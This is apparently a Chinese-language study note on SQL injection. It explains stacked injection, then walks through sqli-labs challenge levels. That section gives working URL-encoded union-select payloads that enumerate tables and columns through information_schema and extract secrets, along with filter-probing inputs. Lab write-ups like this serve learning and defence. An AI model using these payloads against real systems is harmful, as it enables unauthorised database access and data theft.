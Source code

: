 Stacked injections:堆叠注入。从名词的含义就可以看到应该是一堆 sql 语句（多条）一起执 行。而在真实的运用中也是这样的，我们知道在 mysql 中，主要是命令行中，每一条语句结 尾加 ; 表示语句结束。这样我们就想到了是不是可以多句一起使用。这个叫做stacked injection。 </br>
原理:</br>
在 SQL 中，分号（;）是用来表示一条 sql 语句的结束。试想一下我们在 ; 结束一个 sql 语句后继续构造下一条语句， 会不会一起执行？因此这个想法也就造就了堆叠注入。 而 union injection （联合注入） 也是将两条语句合并在一起， 两者之间有什么区别么？区别就在于 union 或者 union all 执行的语句类型是有限的， 可以用来执行查询语句， 而堆叠注入可以执行的是 任意的语句。 </br>
局限:</br>
堆叠注入的局限性在于并不是每一个环境下都可以执行， 可能受到 API 或者数据库引擎 不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。 </br>
虽然我们前面提到了堆叠查询可以执行任意的 sql 语句，但是这种注入方式并不是十分 的完美的。在我们的 web 系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第 二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。
因此，在读取数据时，我们建议使用 union（联合）注入。同时在使用堆叠注入之前， 我们也是需要知道一些数据库相关信息的，例如表名，列名等信息</br>

暂不深入了解

---------------------------------------------
challenge

- **GET - challenge - Union -10 Queries Allowed - Variation1**</br>
	1.查表名</br>
	?id=-1%27%20union%20select%201,(select%20table_name%20from%20information_schema.tables%20where%20table_schema%3d%27challenges%27),3%20%23</br>
	得到此次的表名: 8TELU525VO</br>
	2.查列名 用concat一次性查完输出</br>
	?id=-1%27%20union%20select%201,(select%20group_concat(column_name ,%22---%22)%20from%20information_schema.columns%20where%20table_name%3d%228TELU525VO%22),3%20%23</br>
	返回:</br>
  Your Login name:id---,sessid---,secret_63JY---,tryy---</br>
	Your Password:3</br>
	3.得到密码id,sessid,secret_63JY</br>
	?id=-1%27%20union%20select%20id,sessid,secret_63JY%20from%208TELU525VO%20%23</br>
	返回:</br>
  Your Login name:856213ca887976a33e3d91b2c61fa65a</br>
	Your Password:M5ztHsC34iN2X0lzCiXJ27Cp</br>
	4.输入 M5ztHsC34iN2X0lzCiXJ27Cp 完成

- **GET - Challenge - Union - 14 Queries Allowed - Variation 2**</br>
	1.猜测过滤规则</br>
	当输入?id=1)%26%26(1=1 时 成功 可知过滤为()</br>
	2.参考less 54</br>
	?id=-1)%20union%20select%201,(select%20table_name%20from%20information_schema.tables%20where%20table_schema%3d%27challenges%27),3%20%23</br>
	表名为: C73JPUKYS9	</br>
	?id=-1)%20union%20select%201,(select%20group_concat(column_name ,%22---%22)%20from%20information_schema.columns%20where%20table_name%3d
	%22C73JPUKYS9%22),3%20%23</br>
	列名: Your Login name:id---,sessid---,secret_DH0J---,tryy---</br>
	?id=-1)%20union%20select%20id,sessid,secret_DH0J%20from%20C73JPUKYS9%20%23</br>
	密码：</br>
  Your Login name: 4d0218b33a232f675d53381ef38b5370</br>
  Your Password: kjbKG19I62vmYE3kS7gGN7qf </br> 成功

- **GET - Challenge - Union - 14 Queries Allowed - Variation 3**</br>
	1.猜测</br>
	?id=1%27)%26%26(%271=1 成功 可知为(' ')</br>
	2.下面步骤如上</br>
